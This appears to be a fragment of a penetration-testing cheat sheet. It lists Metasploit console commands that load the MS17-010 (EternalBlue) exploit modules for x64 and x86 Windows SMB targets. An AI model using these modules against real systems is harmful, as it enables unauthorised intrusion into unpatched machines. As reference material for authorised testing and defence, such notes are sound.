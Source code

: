 ## MS17-010 (EternalBlue) (x64)

```nix
msf6> use exploit/windows/smb/ms17_010_eternalblue
```

## MS17-010 (EternalBlue) (x86)

```nix
msf6> use exploit/windows/smb/ms17_010_psexec
```